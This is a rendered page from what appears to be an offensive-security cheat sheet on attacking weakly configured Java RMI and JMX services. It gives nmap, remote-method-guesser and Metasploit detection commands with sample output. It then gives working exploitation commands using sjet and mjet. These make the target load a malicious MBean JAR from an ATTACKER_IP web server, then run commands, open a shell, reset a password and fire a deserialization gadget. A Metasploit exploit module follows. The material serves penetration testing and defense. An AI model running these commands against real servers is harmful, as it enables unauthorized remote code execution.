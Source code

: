 # Java RMI

> Exposing a weak configured Java Remote Method Invocation (RMI) service can lead to several ways to achieve RCE.
> One such attack is to host an MLet file and instruct the JMX service to load MBeans from the remote host which can be carried out
> using the tools mjet or sjet. remote-method-guesser is a more recent tool which bundles enumeration of RMI services together
> with a summary of currently known attack techniques.

## Summary

- [Tools](#tools)
- [Detection](#detection)
- [Exploitation](#exploitation)
    - [RCE using sjet/mjet](#rce-using-sjet-or-mjet)
- [References](#references)

## Tools

- [sjet](https://github.com/siberas/sjet)
- [mjet](https://github.com/mogwailabs/mjet)
- [remote-method-guesser](https://github.com/qtc-de/remote-method-guesser)

## Detection

Using [nmap](https://nmap.org/):

```powershell
$ nmap -sV --script "rmi-dumpregistry or rmi-vuln-classloader" -p TARGET_PORT TARGET_IP -Pn -v
1089/tcp open  java-rmi Java RMI
| rmi-vuln-classloader:
|   VULNERABLE:
|   RMI registry default configuration remote code execution vulnerability
|     State: VULNERABLE
|       Default configuration of RMI registry allows loading classes from remote URLs which can lead to remote code execution.
| rmi-dumpregistry:
|   jmxrmi
|     javax.management.remote.rmi.RMIServerImpl_Stub
```

⧉ Copied!

Using [remote-method-guesser](https://github.com/qtc-de/remote-method-guesser):

```bash
$ rmg scan 172.17.0.2 --ports 0-65535
[+] Scanning 6225 Ports on 172.17.0.2 for RMI services.
[+]
[+] 	[HIT] Found RMI service(s) on 172.17.0.2:40393 (DGC)
[+] 	[HIT] Found RMI service(s) on 172.17.0.2:1090  (Registry, DGC)
[+] 	[HIT] Found RMI service(s) on 172.17.0.2:9010  (Registry, Activator, DGC)
[+] 	[6234 / 6234] [#############################] 100%
[+]
[+] Portscan finished.
```

⧉ Copied!

```bash
$ rmg enum 172.17.0.2 9010
[+] RMI registry bound names:
[+]
[+] 	- plain-server2
[+] 		--> de.qtc.rmg.server.interfaces.IPlainServer (unknown class)
[+] 		    Endpoint: iinsecure.dev:39153 ObjID: [-af587e6:17d6f7bb318:-7ff7, 9040809218460289711]
[+] 	- legacy-service
[+] 		--> de.qtc.rmg.server.legacy.LegacyServiceImpl_Stub (unknown class)
[+] 		    Endpoint: iinsecure.dev:39153 ObjID: [-af587e6:17d6f7bb318:-7ffc, 4854919471498518309]
[+] 	- plain-server
[+] 		--> de.qtc.rmg.server.interfaces.IPlainServer (unknown class)
[+] 		    Endpoint: iinsecure.dev:39153 ObjID: [-af587e6:17d6f7bb318:-7ff8, 6721714394791464813]
[...]
```

⧉ Copied!

Using Metasploit

```bash
use auxiliary/scanner/misc/java_rmi_server
set RHOSTS <IPs>
set RPORT <PORT>
run
```

⧉ Copied!

## Exploitation

### RCE using sjet or mjet

#### Requirements

- Jython
- The JMX server can connect to a http service that is controlled by the attacker
- JMX authentication is not enabled

#### Remote Command Execution

The attack involves the following steps:

- Starting a web server that hosts the MLet and a JAR file with the malicious MBeans
- Creating a instance of the MBean javax.management.loading.MLet on the target server, using JMX
- Invoking the "getMBeansFromURL" method of the MBean instance, passing the webserver URL as parameter. The JMX service will connect to the http server and parse the MLet file.
- The JMX service downloads and loades the JAR files that were referenced in the MLet file, making the malicious MBean available over JMX.
- The attacker finally invokes methods from the malicious MBean.

Exploit the JMX using [sjet](https://github.com/siberas/sjet) or [mjet](https://github.com/mogwailabs/mjet)

```powershell
jython sjet.py TARGET_IP TARGET_PORT super_secret install http://ATTACKER_IP:8000 8000
jython sjet.py TARGET_IP TARGET_PORT super_secret command "ls -la"
jython sjet.py TARGET_IP TARGET_PORT super_secret shell
jython sjet.py TARGET_IP TARGET_PORT super_secret password this-is-the-new-password
jython sjet.py TARGET_IP TARGET_PORT super_secret uninstall
jython mjet.py --jmxrole admin --jmxpassword adminpassword TARGET_IP TARGET_PORT deserialize CommonsCollections6 "touch /tmp/xxx"

jython mjet.py TARGET_IP TARGET_PORT install super_secret http://ATTACKER_IP:8000 8000
jython mjet.py TARGET_IP TARGET_PORT command super_secret "whoami"
jython mjet.py TARGET_IP TARGET_PORT command super_secret shell
```

⧉ Copied!

### RCE using Metasploit

```bash
use exploit/multi/misc/java_rmi_server
set RHOSTS <IPs>
set RPORT <PORT>
# configure also the payload if needed
run
```

⧉ Copied!

## References

- [ATTACKING RMI BASED JMX SERVICES - HANS-MARTIN MÜNCH, 28 April 2019](https://mogwailabs.de/en/blog/2019/04/attacking-rmi-based-jmx-services/)
- [JMX RMI – MULTIPLE APPLICATIONS RCE - Red Timmy Security, 26 March 2019](https://www.exploit-db.com/docs/english/46607-jmx-rmi-%E2%80%93-multiple-applications-remote-code-execution.pdf)
- [remote-method-guesser - BHUSA 2021 Arsenal - Tobias Neitzel, 15 August 2021](https://www.slideshare.net/TobiasNeitzel/remotemethodguesser-bhusa2021-arsenal)